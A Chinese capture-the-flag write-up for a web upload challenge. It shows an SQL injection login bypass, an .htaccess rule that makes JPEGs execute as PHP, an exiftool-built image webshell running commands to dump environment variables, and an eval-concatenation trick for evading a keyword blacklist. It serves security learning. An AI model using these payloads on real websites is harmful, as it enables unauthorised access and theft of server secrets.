


# Stage3 — Upload（极光科技）

刚进去看到只有一个图片，直接先看看源码：



**发现有一个 `admin` 后台管理** —— 页脚里的 `<a href="admin/">后台管理</a>`。

## 进后台

进去看看，发现需要登陆。利用万能密码：

```text
admin'-- -
```

成功进入。

**为什么这样能过 —— 因为后端大概是这样拼的：**

```sql
SELECT * FROM users WHERE username='$u' AND password='$p'
```

**填进去之后变成：**

```sql
SELECT * FROM users WHERE username='admin'-- -' AND password='...'
                                          ↑ 从这里开始全被注释掉
```

**`-- ` 是 SQL 的注释符，后面那一整段（包括密码判断）都不执行了。**

**所以它连密码都不用填对 —— 不用构造“条件为真”，只要让后半句消失就行。**

## 两个上传点

进去后发现可以上传配置文件：

```
🖼️ 更新海报      只收 JPEG / GIF / PNG
⚙️ 配置文件管理    收 .htaccess / .ini
```

**先试试上传图片：**

```
直接上传一个空的 jpg  →  提示格式不对
上传正常的 jpg        →  可以
```

**这里就知道了会对**内容**进行校验，所以这里就明确用**图片马**。**

## 先上传 .htaccess

内容就一行：

```apache
AddType application/x-httpd-php .jpg
```

**⚠️ 这里要注意检查一遍。**

**我最开始打成了 `httped`（多了 e 少了 d），导致后面一直以为我的命令被过滤了 —— 其实 PHP 根本没接管这个文件。**

**判断依据：传完之后访问 `poster.jpg`，如果浏览器弹「保存文件」，就是 MIME 没被识别成 PHP；正常执行时 `Content-Type` 会变成 `text/html`。**

## 再用 exiftool 做图片马

```powershell
exiftool -Comment='<?php echo `$_GET[1]`; ?>' poster.jpg -o po1.jpg
```

**我本来随便拿了一个 jpg 来构造，但是因为它内容较大、二进制数据较多，里面或多或少会出现 `<?`。**

**PHP 一旦在二进制里遇到 `<?` 就当成 PHP 开头来解析，后面跟着的是随机字节 —— 于是报错：**

```text
Parse error: syntax error, unexpected character 0x0E
in /var/www/html/uploads/poster.jpg on line 31
```

**所以这里建议用**小体量**的 jpg：比如题目里的背景图 `poster.jpg`，直接下载下来用。**

**然后访问：**

```text
/uploads/poster.jpg?1=env
```

**就能看到 flag：**



```text
ZeroG_2026_FLAG=ZeroGFlag{...}
```

---

## 附：三个问题

### ① `poster.jpg?v=1793248668` 里的 `v=` 是什么


**缓存破坏参数（cache buster）。**

**文件名永远是 `poster.jpg`，浏览器会缓存旧图；加一个每次变化的 `v`（通常是 Unix 时间戳）让 URL 变掉，强制重新下载。**

```text
1793248668 ≈ 2026-10-29 的 Unix 时间戳（秒）
```

**服务器不读它，PHP 也不用它 —— 纯前端约定。** 对我们反而有用：改完 payload 带上新 `v`，能确保看到的是新响应。

### ② 为什么用 `env` 找 flag，而不是找目录

**因为 flag 不一定是文件。**

**这题的 flag 是平台在容器启动时通过环境变量注入的，不落盘：**

```
flag 不落盘 → 读文件读不到 → 备份/目录遍历/源码泄露都拿不到
只有真正拿到 RCE 才能读 → 考的是"能执行命令",不是"能猜路径"
```

**排查顺序应该是：**

```text
① ls -la /            先看有没有 flag 文件
② env                 没有就查环境变量
③ find / -name "*flag*"   再扫一遍
④ cat /proc/self/environ  环境变量换个读法
```

### ③ 能不能用 `$_POST` + 蚁剑

**能，但 `echo `$_POST["1"]`` 这种写法不行。**

**`echo \`...\`` 是**命令执行** —— 参数被当 shell 命令跑。**

**蚁剑要的是**代码执行** —— 它往参数里塞的是 PHP 代码，入口必须是：**

```php
eval($_POST['x'])
```

**而 `eval` 在黑名单里，所以要用拼接：**

```php
$a='ev'.'al'; $a($_POST[1]);
```

**关键点：这道题的黑名单只扫**上传文件的内容**，不扫 HTTP 请求体 —— 所以蚁剑发过来的 body 里带什么词都不受影响。**
